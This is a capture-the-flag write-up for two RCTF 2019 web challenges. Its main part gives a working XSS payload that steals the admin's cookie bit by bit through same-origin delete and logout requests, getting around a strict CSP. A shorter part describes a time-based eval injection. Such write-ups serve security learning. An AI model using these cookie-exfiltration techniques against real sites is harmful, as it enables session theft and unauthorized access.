 Jail
------

For the intended solution, go to [this writeup](https://github.com/zsxsoft/my-ctf-challenges/tree/master/rctf2019/jail%20%26%20password)

Ok so I found an (un)intended way to solve `jail` challenge at [RCTF 2019](https://ctftime.org/event/812). First let's analyze the web application - [here if it's still up](https://jail.2019.rctf.rois.io/)

It's a web app written in PHP that requires the user to login and allows him to post messages for himself which are listed only to himself, send feedback to the admin with a post id (a headless browser instance checks them), to upload an avatar (can upload arbitrary content with any extension), to delete all posts and to logout.

![main_page](jail/mainpage.png)

Those are the endpoints
```
GET  /?action=login
POST /?action=login
GET  /?action=signup
POST /?action=signup

logged in only
GET  / - list all messages
POST / - post message with param message
GET  /?action=post&id=003ab6a68ba176a916c5d16510e5c4d7 - get message
GET  /?action=feedback - feedback page
POST /?action=feedback - post feedback with `id` and `captcha` which was a proof of work
GET  /?action=profile
POST /?action=profile
GET  /?action=index&method=delete
GET  /?action=index&method=logout
```

Well playing around I could see that messages are not stripped of html in any way. So the solution must be some type of XSS. Loading a message page, there was a hint.

```
Set-Cookie: hint1=flag1_is_in_cookie
Set-Cookie: hint2=meta_refresh_is_banned_in_server
```

Clearly XSS. But trying something I was quickly blocked by the following CSP:
```
sandbox allow-scripts allow-same-origin
base-uri 'none'
default-src 'self'
script-src 'unsafe-inline' 'self'
connect-src 'none'
object-src 'none'
frame-src 'none'
font-src data: 'self'
style-src 'unsafe-inline' 'self'
```

Everything looked like it was blocked. Nothing external available. But I saw some hope at `script-src 'unsafe-inline' 'self'`. Hmm maybe not, as the following script was prepended to my message content and was blocking redirects:

```html
<script>
window.addEventListener("beforeunload", function (event) {
  event.returnValue = "Are you sure want to exit?"
  return "Are you sure want to exit?"
})
Object.freeze(document.location) </script>
___MY_MESSAGE___
```

So let's go back the the feedback page. There I would enter the post id, solve the captcha and "some admin would check the link by hand" (headless browser lol). As the html from the post wasn't escaped, the admin would run our html and javascript. Meaning I could exfiltrate his cookies and do other stuff with his browser.

![feedback page preview](jail/feedback_page.png)

Ok. How can I exfiltrate the cookie without anything external? It was a bit obvious I could just send it internally. Just get the admin's cookie, replace his cookie with mine (meaning he would be logged as me) and just post a message with his cookie. Well, pretty good plan BUT the sandbox property of CSP wouldn't allow that (`sandbox allow-scripts allow-same-origin`). We would be needing `allow-forms`.

At least I can make get requests with an image. Maybe... This was an outrageous idea, but do you remember the `delete all` endpoint? It's a `GET`. And `logout` is also a `GET`. Maybe I can exfiltrate the cookie bit by bit. 1 goes to `delete all`, 0 goes to `logout`, and if it fails, nothing would happen so I would have to retry. Let's do some math. Let's say the flag has 40 chars. It's printable ASCII so we can assume the leftmost bit is 0. `0xxxxxxx`. We would have to send `40 * 7 = 280` requests. Pretty doable.

I tried it.

```html
<script>
i=0;
j=1;

v = document.cookie;
s = v.charCodeAt(i).toString(2).padStart(8, '0')[j];
document.cookie="PHPSESSID=mysessionid";

window.onload = function() {

method = null;
if (s === '1') {
    method = 'delete';
} else if(s === '0') {
    method = 'logout';
} else {
    method = 'bad';
}

document.write('<img src="https://jail.2019.rctf.rois.io/?action=index&method=' + method + '">');

};
</script>
```

IT FREAKING WORKS. I had to automate it and make it bad ass. Not a big deal. Remember the captcha from feedback? I pregenerated all of them, put them in a `marshal file` and loaded them at the start. `165M` of hashmap.

The plan is as follows:
1. Login if not logged in
2. Post the message and get post id
3. Send post id to feedback
4. Wait 5 seconds then check the main page
    * if logged out: return 0
    * elif no posts found: return 1 # posts deleted
    * else retry

![output](jail/output.png)

It worked. After like 20-30 minutes we got the flag. You can check out the source at [jail/bf.py](jail/bf.py). I used comments :))

Sorry for spamming you guys at RCTF. I hope you enjoyed this alternative solution.

CALCALCALC
-----

I found a solution which I think was too easy for `calcalcalc`. Basically one could use `eval()` with `chr()` to escape this regex check `!/^[0-9a-z\[\]\(\)\+\-\*\/ \t]+$/i.test(str)`. The payload would run in python, and by using sleep and a binary search I was able to get the flag.

Source code at [calc/main.py](calc/main.py)
